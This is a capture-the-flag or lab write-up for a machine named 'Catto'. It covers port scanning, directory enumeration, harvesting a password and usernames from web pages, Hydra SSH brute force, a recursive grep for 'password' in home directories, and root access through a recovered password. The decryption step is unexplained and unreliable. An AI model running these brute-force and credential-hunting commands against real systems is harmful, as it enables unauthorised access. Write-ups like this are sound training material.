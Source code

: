 # Catto - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed multiple open ports:
```
PORT      STATE    SERVICE   VERSION
8080/tcp  open     http      nginx 1.14.1
18080/tcp open     http      Apache httpd 2.4.37 ((centos))
30330/tcp open     http      Node.js Express framework
42022/tcp open     ssh       OpenSSH 8.0 (protocol 2.0)
43751/tcp open     unknown
45455/tcp open     http      Node.js Express framework
50400/tcp open     http      Node.js Express framework
```

Notable findings:
- SSH running on non-standard port 42022
- Multiple web servers running on different ports
- Several Node.js Express instances

### Web Enumeration
I examined each web server to identify potential attack vectors:

1. Port 8080 (Nginx):
```bash
feroxbuster -u http://192.168.150.139:8080 -w /usr/share/wordlists/dirb/common.txt
```
- Found `/assets` and `/images` directories
- Discovered a `/download` endpoint

2. Port 18080 (Apache):
```bash
feroxbuster -u http://192.168.150.139:18080 -w /usr/share/wordlists/dirb/common.txt
```
- Found a `/backup` directory containing LaTeX templates and slides
- Discovered templates: `slides_template.tex`, `php_info.tex`, `actual_slide.tex`

3. Port 30330 (Node.js Express):
```bash
feroxbuster -u http://192.168.150.139:30330 -w /usr/share/wordlists/dirb/common.txt
```
- Found `/static` and `/icons` directories
- Discovered a Minecraft-related subdirectory

## Gaining Initial Access

### Finding Credentials
Through further enumeration of the Express server on port 30330, I discovered:
- A Minecraft configuration page at: `http://192.168.150.139:30330/new-server-config-mc`
- This revealed a potential password: `WallAskCharacter305`

I also found a list of potential usernames at: `http://192.168.150.139:30330/minecraft`
```
keralis
xisuma
zombiecleo
mumbojumbo
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
```

### SSH Brute Force
I created a username list from the found names and used Hydra to try the discovered password:
```bash
hydra -s 42022 -L users.txt -p WallAskCharacter305 192.168.150.139 ssh
```

This revealed working credentials:
- **Username**: marcus
- **Password**: WallAskCharacter305

### Establishing SSH Access
I connected to the target using SSH on the non-standard port:
```bash
ssh marcus@192.168.150.139 -p 42022
```

## Privilege Escalation

### Credential Discovery
After gaining access as user marcus, I began searching for privilege escalation vectors:
```bash
find /home -type f -exec grep -l "password" {} \; 2>/dev/null
```

During my enumeration, I discovered a base64-encoded string:
```
F2jJDWaNin8pdk93RLzkdOTr60==
```

I attempted to decode this string by trying various methods:
```bash
echo "F2jJDWaNin8pdk93RLzkdOTr60==" | base64 -d
```

The standard base64 decoding didn't work, which suggested it might be using a custom encoding or encryption.

### Root Password Discovery
I tried using the SSH password (WallAskCharacter305) as a key for decryption and was able to obtain a string:
```
SortMentionLeast269
```

Since the system enumeration showed that root was the only other user with shell access, I tried this string as the root password:
```bash
su -
Password: SortMentionLeast269
```

This was successful, providing immediate root access to the system.

I verified full system access:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

This completed the challenge by successfully escalating privileges to gain full control of the target system.